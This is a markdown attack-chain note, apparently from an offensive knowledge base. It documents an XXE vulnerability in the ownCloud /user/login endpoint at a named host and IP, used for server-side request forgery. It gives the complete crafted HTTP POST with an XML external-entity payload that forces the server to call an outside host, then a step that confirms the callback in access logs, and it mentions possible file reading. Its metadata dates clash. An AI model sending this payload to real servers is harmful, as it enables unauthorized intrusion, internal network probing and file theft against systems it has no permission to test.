

---
tags:
  - xxe
  - ssrf
  - xml
  - owncloud
type: attack_chain
tools:
  - '[[tools/Wallarm-Scanner]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
commands:
  - '[[commands/xxe-post-request]]'
  - '[[commands/ssrf-get-request]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Exploit-XXE-via-Crafted-XML-POST-Request]]'
  - '[[procedures/Verify-SSRF-via-Access-Logs]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of an XML External Entity (XXE) vulnerability in the ownCloud
  login endpoint to perform Server-Side Request Forgery (SSRF), enabling
  potential arbitrary file reading and internal network access.
skill_level: intermediate
impact_level: high
id: 8986ea04-e6b4-4f36-9698-b4c9f10c4499
created_at: '2025-12-13T09:00:27.223Z'
updated_at: '2025-12-13T09:00:27.223Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation Leading to SSRF in ownCloud Login Endpoint

Multi-stage attack chain demonstrating the exploitation of an XXE vulnerability in the /user/login endpoint of vpn.owncloud.com, leading to SSRF. The attack involves sending a crafted XML payload to trigger external entity processing, causing the server to make unauthorized requests, which is then verified through access logs on a controlled external server. This could potentially allow arbitrary file reading or internal network reconnaissance, though mitigated by VPN restrictions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Wallarm-Scanner]]

### Target Environment

- Web platform running ownCloud on Linux
- Exposed /user/login endpoint
- XML parsing enabled without external entity restrictions

### Initial Access Requirements

- Network access to the target endpoint (vpn.owncloud.com:144.76.105.208)
- Ability to host an external server for verification (e.g., wallarm.tools)

## Detailed Attack Procedures

### Step 1: Send Crafted XML to Exploit XXE
procedure: [[procedures/Exploit-XXE-via-Crafted-XML-POST-Request]]

**Objective**: Inject an external entity into the XML payload to force the server to process and fetch a remote URL, exploiting the XXE vulnerability for SSRF.

**Instructions**: Use [[commands/xxe-post-request]] to send the crafted XML POST request to the /user/login endpoint:

```bash
POST /user/login HTTP/1.1
Host: 144.76.105.208
Accept: */*
Content-type: application/xml
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 163

<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % select SYSTEM "http://wallarm.tools/ok">
%select;
]>
<a>wlrm-scnr</a>
```

**Expected Output**: The server processes the XML and makes an outbound request to the specified URL.

**Success Indicators**:
- No immediate error in response
- Subsequent verification in logs confirms the request

### Step 2: Verify SSRF via Access Logs
procedure: [[procedures/Verify-SSRF-via-Access-Logs]]

**Objective**: Check the access logs of the external server to confirm that the vulnerable server made the induced request, validating the SSRF.

**Instructions**: Monitor the access logs on the external server (e.g., wallarm.tools) for incoming requests triggered by the XXE payload. Look for entries like those from [[commands/ssrf-get-request]]:

```bash
GET /ok HTTP/1.0
```

**Expected Output**: Log entry showing GET /ok from the target's IP, confirming SSRF.

**Success Indicators**:
- Log confirms request from vulnerable server
- Timestamp matches exploitation attempt

## Attack Chain Summary

### Key Achievements

1. Successful XXE injection via XML payload
2. Confirmed SSRF through external log verification
3. Potential for file exfiltration or internal attacks (mitigated by VPN)

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

*Last updated: 2023-10-01*
